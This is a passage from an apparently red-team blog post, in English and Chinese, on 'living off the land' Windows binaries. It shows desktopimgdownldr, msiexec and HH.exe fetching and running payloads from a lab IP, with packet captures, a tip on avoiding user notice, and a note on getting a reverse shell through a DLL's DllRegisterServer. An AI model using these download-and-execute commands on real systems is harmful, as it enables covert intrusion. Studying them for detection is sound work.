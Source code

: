 ```powershell
C:\windows\Personalization\LockScreenImage\LockScreenImage_%random%.jpg
```

***Note.2*** The system uses BITS to download Windows updates and Microsoft Defender updates, among other things.

***Tips***

*When running as Administrator, the binary sets and overrides the user’s lock screen image. However, as I show further below, by deleting the registry right after running the binary, the override can be avoided. In addition, desktopimgdownldr.exe does not change the image while the computer is in a locked screen, so an attacker can run it without the user noticing at all.*

### 5. Msiexec.exe

```powershell
bmsiexec /i http://192.168.220.125/white_process/test.msi
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/Msiexec.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Windows Installer
Host: 192.168.220.125
```

***Note*** whitch function Msiexec.exe call: *DllRegisterServer*
之前按照 `Micro8` 的过程复现, 发现一直有问题, 后来wsy提醒说, Msiexec 调用的dll的 `DllRegisterServer`, 而`Micro8`中的方法生成的dll导出表仅有 `DllEntryPoint`

后面逆向了一下 32位版的 msiexec.exe, 也通过 `rundll32 Msiexec_rev_x64_4444.dll DllEntryPoint` 成功 get shell 证实了这一结论

![msiexec_re_register_dll]({{site.url}}/assets/Living_Off_The_Land/img/Msiexec_DllRegisterServer.png)

### 6. HH

Open the target PowerShell script with HTML Help.

```powershell
HH.exe http://192.168.220.125/white_process/call_calc.exe
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/HH.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Accept: */*
Accept-Language: zh-CN
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```
